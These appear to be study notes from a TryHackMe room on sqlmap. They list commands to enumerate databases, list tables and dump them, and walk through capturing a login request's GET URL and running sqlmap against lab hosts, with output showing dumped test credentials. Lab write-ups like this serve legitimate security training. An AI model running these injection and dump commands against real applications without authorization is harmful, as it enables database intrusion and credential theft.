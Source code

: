 #SQL #SQLi  #Subscribers 

https://tryhackme.com/r/room/sqlmapthebasics

```
sqlmap --wizard

--dbs    extract all database names 
-D database_name --table
-D database_name -T table_name --dump

sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables
```

url ` http://sqlmaptesting.thm/search?cat=1 `
uses cat 

if web app uses GET parameter in the URL for data add `-u` in sqlmap 

<span style="color:#a0f958">URLs that have GET parameters can be vulnerable to SQL injection</span>
- different types of SQL injection, such as boolean-based blind, error-based, time-based blind, and UNION query, are identified in the target URL.
- 
```
website = sqlmap -u http://sqlmaptesting.thm/search/cat=1

1. sqlmap -u website --dbs
2. sqlmap -u website -D users --tables
3. sqlmap -u website -D users -T thomas --dump

+---------------------+------------+---------+ 
| Date                | name       | pass    | 
+---------------------+------------+---------- 
| 09/09/2024          | Thomas THM | testing | 
+---------------------+------------+---------+

```


to get the complete URL along with its GET parameters, we need to right-click on the login page and click the inspect option (the process may vary slightly from browser to browser). From here, we have to select the Network tab; then we have to enter some test credentials in the username and password fields and click the login button, and we will be able to see the GET request. Click on that request, and we can see the complete GET request with the parameters. We can copy this complete URL and use it with the SQLMap tool to discover SQL injection vulnerabilities inside it and exploit it.

```
Network tab > test : test 

http://10.10.40.152/ai/includes/user_login?email=test&password=test

sqlmap -u 'http://10.10.40.152/ai/includes/user_login?email=test&password=test' --dbs --level=5

questions: y, y, y, y, 'email' no

available databases [6]:
[*] ai
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] test

What is the name of the table available in the "ai" database?

sqlmap -u "http://10.10.40.152/ai/includes/user_login?email=test&password=test" -D ai -T user --dump -level=5

Database: ai
Table: user
[1 entry]
+------+-----------------+---------------------+------------+
| id   | email           | created             | password   |
+------+-----------------+---------------------+------------+
| 1    | test@chatai.com | 2023-02-21 09:05:46 | 12345678   |
+------+-----------------+---------------------+------------+

[INFO] table 'ai.`user`' dumped to CSV file '/root/.sqlmap/output/10.10.40.152/dump/ai/user.csv'
[INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.40.152'



```











